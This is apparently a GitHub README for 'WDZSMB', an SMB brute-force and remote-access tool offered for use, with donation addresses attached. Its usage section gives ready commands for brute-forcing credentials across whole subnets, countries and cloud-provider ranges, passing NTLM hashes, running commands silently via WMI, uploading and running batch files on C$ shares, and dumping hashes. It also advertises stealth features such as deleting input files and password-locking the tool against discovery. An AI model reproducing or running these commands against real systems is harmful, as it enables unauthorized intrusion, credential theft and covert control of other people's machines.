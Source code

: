 <h1 align="center">WDZSMB</h1>

## Description
 - WDZSMB Is A LightWeight, Memory-Efficient & Ultra Fast Performing Cli SMB (Server Message Block) Bruteforce App.
 - Upload/Download File To/From Remote Server Providing Local & Remote File Paths &Or Execute Uploaded File Using '-cmd'.
 - Execute Command On Remote Server Silently.
 - Save Ntlm Hashes From Server Locally In 'hashes.txt' If Cred Used Have Access.
 - Save Rid Brute Results From Server Locally In 'rid_info.txt' If Found.
 - Scan Using Password Or Ntlm Hash (32 characters)
 - Scan An Entire Network (e.g 1.1.1.0/24)
 - Check If Credential(s) Are valid (e.g "server:port@domain\\username;password")
 - Scan Using "user;password" | "user;ntlm_hash" combo(s) (e.g "admin;admin123", "dev;ab2d4912fc7132fb7165d79cffbc5db5")
 - Password Generator (e.g all perms, all upper & lower, all no repeat chars)
 - Grab Network Cidr Lists For All Datacenters Or Countries(2 letter cc) (e.g all | microsoft | us)
 - No Viruses, Can Be Run Using Guest Or Admin Account On Any Windows OS
 - Encrypt/Decrypt Hits With A Password (Can Only Be Decrypted With This Program)
 - Clean/Delete All Input Files (Total Stealth)
 - Password Protected Program So Even If Found Can't Be Used Without Password
 - All In 1 Lightweight Memory Efficient Application At 17.7 Mb You Can't Find That Anywhere.
 - Made By A Pentester For Pentesting &Or Network Administrator Purposes
 - Hit Me Up & Let Me Know, Serious Inquiries Only

## Prerequisites
 - Can Be Distributed As An Executable For Windows/Linux Or As A Package To Install With Python On The System.

### Datacenters
```
all
akamai
alibaba
amazon
aws_cloudfront
aws_ec2
aws_s3
bigo
bing
cloudflare
digitalocean
facebook
fastly
github
google
google_cloud
linode
microsoft
netflix
openai
oracle
telegram
twitter
zenlayer
zoom
```

### Usage
Scan Servers In 's.txt' For Valid User 'admin' & Password 'admin@123' Using 1000 threads
```
smb.exe -s s.txt -u admin -p admin@123 -t 1000
```
Scan Servers In 's.txt' For Valid User 'admin' & NTLM_Hash '0bae622ab68138248c66d66882818dfd'
```
smb.exe -s s.txt -u u.txt -hs 0bae622ab68138248c66d66882818dfd
```
Scan Servers In 's.txt' For Valid 'User;Password' Combos In 'combo.txt' & Type Password To Encrypt Valid Creds.
```
smb.exe -s s.txt -up combo.txt -e
```
Scan Servers In Network 1.1.1.0/24 For Valid User 'user1' & Generated Password(s), Save Passwords To 'pwd.txt'
```
smb.exe -nw 1.1.1.0/24 -u user1 -ps user -pt nrc -pe @123 -po pwd.txt
```
Save All CIDR Networks For USA In us.txt
```
smb.exe -nc US -no us.txt
```
Scan Servers In 's.txt' For Users In 'u.txt' & Passwords In 'p.txt' & Stealthily Delete All 3 Input Files.
```
smb.exe -s s.txt -u u.txt -p p.txt -clean
```
Execute Command 'net user defaultaccount /active:no' On Valid Cred Servers In 'c.txt' Using 'wmi' Execution Policy.
```
smb.exe -c c.txt -cmd 'net user defaultaccount /active:no' -exp wmi
```
Upload 'cmd.bat' Local File To Valid Cred Servers C$ Share In 'c.txt' As 'Users\cmd.bat' Remote File & Execute It.
```
smb.exe -c c.txt -lf cmd.bat -rf Users\cmd.bat -tr -share C$ -cmd c:\Users\cmd.bat
```
Download 'c:\Users\a.txt' Remote File As 'b.txt' Local File From Valid Cred Servers 'C$' Share In 'c.txt'.
```
smb.exe -c c.txt -lf b.txt -rf Users\a.txt -dn -share C$
```
Save Ntlm Hashes From Valid Cred Servers In 'c.txt' In 'hashes.txt' File If Cred/User Account Used Has Access.
```
smb.exe -c c.txt -ntlm
```
Scan Network 1.1.1.0/24 Using 'admin;password' Combo & Save Found Rid Brute Results In 'rid_info.txt' & Ntlm Hashes In 'hashes.txt'.
```
smb.exe -nw 1.1.1.0/24 -up admin;password -rid -ntlm
```

## Illustration Video:
...Coming Soon...

## Contact Info:
 - Email:     wuddz_devs@protonmail.com
 - Github:    https://github.com/wuddz-devs
 - Telegram:  https://t.me/wuddz_devs
 - Youtube:   https://youtube.com/@wuddz-devs
 - Reddit:    https://reddit.com/user/wuddz-devs

### Buy Me A Coffee!!
![Alt Text](https://raw.githubusercontent.com/wuddz-devs/wuddz-devs/main/assets/eth.png)
 - ERC20:    0xbF4d5309Bc633d95B6a8fe60E6AF490F11ed2Dd1

![Alt Text](https://raw.githubusercontent.com/wuddz-devs/wuddz-devs/main/assets/btc.png)
 - BTC:      bc1qa7ssx0e4l6lytqawrnceu6hf5990x4r2uwuead

![Alt Text](https://raw.githubusercontent.com/wuddz-devs/wuddz-devs/main/assets/ltc.png)
 - LTC:      LdbcFiQVUMTfc9eJdc5Gw2nZgyo6WjKCj7

![Alt Text](https://raw.githubusercontent.com/wuddz-devs/wuddz-devs/main/assets/doge.png)
 - DOGE:     DFwLwtcam7n2JreSpq1r2rtkA48Vos5Hgm

![Alt Text](https://raw.githubusercontent.com/wuddz-devs/wuddz-devs/main/assets/tron.png)
 - TRON:     TY6e3dWGpqyn2wUgnA5q63c88PJzfDmQAD

#### Enjoy my awesome creativity!!
#### Peace & Love Always!!
